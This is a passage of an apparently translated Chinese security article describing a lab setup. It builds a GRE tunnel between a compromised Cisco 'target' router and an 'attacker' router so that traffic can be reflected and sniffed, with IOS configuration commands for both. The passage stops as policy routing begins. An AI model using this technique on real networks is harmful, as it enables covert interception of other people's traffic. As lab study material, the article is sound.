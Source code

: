 图3显示了在本次试验的网络拓扑。

![](http://drops.javaweb.org/uploads/images/6d76f503db4312d0756ece3b9acf673e92922a0d.jpg)

图3 - 实验测试拓扑

1.  **实验设备**
    
    目标路由器（target router）使用双以太网接口的Cisco 3600路由器，中间路由器（attacker router）使用双以太网接口的Cisco 2600路由器。这个实验同样适用于任何IOS系统的思科路由器，可能适用于其他支持GRE隧道和策略路由的路由器。
    
    邮件服务器是一台装有Linux的笔记本，网络嗅探设备是一台Solaris工作站，这些设备都是任意选择的。
    
2.  **建立一条GRE隧道**
    
    第一步，在对路由器进行基础的IP配置之后，就在目标路由器和中间路由器间建起GRE隧道，在实际环境使用这种方法时，目标路由器应必须首先已被入侵并可以远程配置，入侵目标路由器的方法以已经超出了本文的讨论范围。
    
    目标路由器配置：
    
    ```
    Target#conf t
    Target(config)#int tunnel0
    Target(config-if)#ip address 192.168.5.1 255.255.255.0
    Target(config-if)#tunnel source eth0/1
    Target(config-if)#tunnel dest 192.168.1.2
    Target(config-if)#tunnel mode gre ip
    Target(config-if)#exit
    Target(config)#exit
    Target#
    
    ```
    
    建立名称为tunnel0的隧道接口，分配本地IP地址192.168.5.1（虚拟的IP地址），外部以太网接口定义为本地tunnel隧道的终点，同时定义中间路由器的外部IP地址为tunnel隧道对端的终点。在中间路由器上配置类似的命令。
    
    中间路由器操作：
    
    ```
    Attacker#conf t
    Attacker(config)#int tunnel0
    Attacker(config-if)#ip address 192.168.5.2 255.255.255.0
    Attacker(config-if)#tunnel source eth0/1
    Attacker(config-if)#tunnel dest 192.168.1.1
    Attacker(config-if)#tunnel mode gre ip
    Attacker(config-if)#exit
    Attacker(config)#exit
    Attacker#
    
    ```
    
    到这一步，两台路由器间的GRE隧道已经建立了，不管这两台路由器间在互联网间相隔多少跳路由，GRE隧道都只认为经过了一跳路由。
    
3.  **场景1中的策略路由配置**
    
    在场景1中（见图1），我们在中间路由器tunnel0的接口上建立策略路由，并通过GRE隧道向目标路由器“反射”流量。
    
    中间路由器操作：
    